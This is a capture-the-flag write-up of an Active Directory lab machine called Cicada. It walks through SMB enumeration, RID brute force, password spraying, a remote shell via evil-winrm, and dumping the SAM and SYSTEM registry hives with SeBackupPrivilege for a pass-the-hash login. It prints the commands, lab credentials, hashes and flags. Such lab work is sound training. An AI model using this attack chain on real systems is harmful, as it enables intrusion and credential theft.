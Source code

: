 ```yaml
---
sticker: emoji//1fab0
---
```

# ENUMERATION
---

## OPEN PORTS
---

| PORT   | SERVICE       |
| :----- | :------------ |
| 53/tcp | domain        |
| 88/tcp | kerberos-sec  |
| 135/tcp| msrpc         |
| 139/tcp| netbios-ssn   |
| 389/tcp| ldap          |
| 445/tcp| microsoft-ds? |
| 464/tcp| kpasswd5?     |
| 593/tcp| ncacn_http    |
| 636/tcp| ssl/ldap      |
| 3268/tcp| ldap         |
| 3269/tcp| ssl/ldap     |
| 5985/tcp| http         |
Let's start reconnaissance.

# RECONNAISSANCE
---

We are facing a AD machine, let's start with some basic SMB enumeration:


![](Pasted image 20250116135424.png)

We can use netexec to perform a simple check on SMB and WINRM:

![](Pasted image 20250116135538.png)


We can attempt to log into SMB without the authentication process using `smbclient -NL IP`:

![](Pasted image 20250116135823.png)


We found interesting shares, let's check out `HR`:

![](Pasted image 20250116135909.png)


We find a `Notice from HR.txt` file, let's download it and check it:

![](Pasted image 20250116140031.png)

We got a default password, my guess would be we need to perform a basic brute force to enumerate users, this would be in the following way:

```ad-note
`netexec smb 10.10.11.35 -u 'anonymous' -p '' --rid-brute`
```

We get the following output:

```
netexec smb 10.10.11.35 -u 'anonymous' -p '' --rid-brute
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\anonymous: (Guest)
SMB         10.10.11.35     445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)     
SMB         10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        512: CICADA\Domain Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        513: CICADA\Domain Users (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        514: CICADA\Domain Guests (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        515: CICADA\Domain Computers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        516: CICADA\Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        517: CICADA\Cert Publishers (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        518: CICADA\Schema Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        519: CICADA\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        520: CICADA\Group Policy Creator Owners (SidTypeGroup)               
SMB         10.10.11.35     445    CICADA-DC        521: CICADA\Read-only Domain Controllers (SidTypeGroup)                
SMB         10.10.11.35     445    CICADA-DC        522: CICADA\Cloneable Domain Controllers (SidTypeGroup)                
SMB         10.10.11.35     445    CICADA-DC        525: CICADA\Protected Users (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        526: CICADA\Key Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        527: CICADA\Enterprise Key Admins (SidTypeGroup)                       
SMB         10.10.11.35     445    CICADA-DC        553: CICADA\RAS and IAS Servers (SidTypeAlias)                         
SMB         10.10.11.35     445    CICADA-DC        571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)     
SMB         10.10.11.35     445    CICADA-DC        572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)      
SMB         10.10.11.35     445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1101: CICADA\DnsAdmins (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        1102: CICADA\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1103: CICADA\Groups (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```



# EXPLOITATION
---

Let's store all the usernames in a file and perform password spraying:


`nxc smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'`


![](Pasted image 20250116140940.png)



We found the user, these are the credentials:

```ad-note

`michael.wrightson`:`Cicada$M6Corpb*@Lp#nZp!8`

```


We can search for more privileged users:

![](Pasted image 20250116141256.png)

We found an account with the following credentials:

```ad-note
`david.orelious`:`aRt$Lp#7t*VQ!3`
```


Let's check the shares this account has access to:


![](Pasted image 20250116141414.png)

We can now read the `DEV` share, let's take a look at it:


![](Pasted image 20250116141607.png)

Found a `Backup_script.ps1` file, let's view the contents:



![](Pasted image 20250116141718.png)

Found more credentials: 

```ad-note

`emily.oscars`:`Q!3@Lp#M6b*7t*Vt`
```


Let's check if we are able to get a shell with those credentials using `evil-winrm`:

```ad-success
`evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'`


![](Pasted image 20250116142124.png)

```


We can read `user.txt` and begin with privilege escalation:

```ad-note
![](Pasted image 20250116142223.png)

User: `74b2598907182ac31cca52c79b20eb0a`
```

# PRIVILEGE ESCALATION
---

In order to begin with privilege escalation, we can start enumerating our privileges:


`whoami /priv`


![](Pasted image 20250116142402.png)

We can make use of `SeBackupPrivilege` in order to escalate our privileges, let's use the following PoC:

![](Pasted image 20250116142600.png)

![](Pasted image 20250116142623.png)


But, we can simplify the PoC in the following way:

```ad-summary
1. `reg save hklm\sam sam`
2. `reg save hklm\system system`
3. `download sam`
4. `download system`
5. `impacket-secretsdump LOCAL -sam sam -system sytem`


#### Output
----

![](Pasted image 20250116144219.png)

And like that, we can get our admin hash.
```


```
impacket-secretsdump LOCAL -sam sam -system system
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
```

Let's log in using Pass the hash:

![](Pasted image 20250116144347.png)

And our root flag is the following: 

```ad-note

Root: `568e019774b66b875a024dfa590b84dc`
```

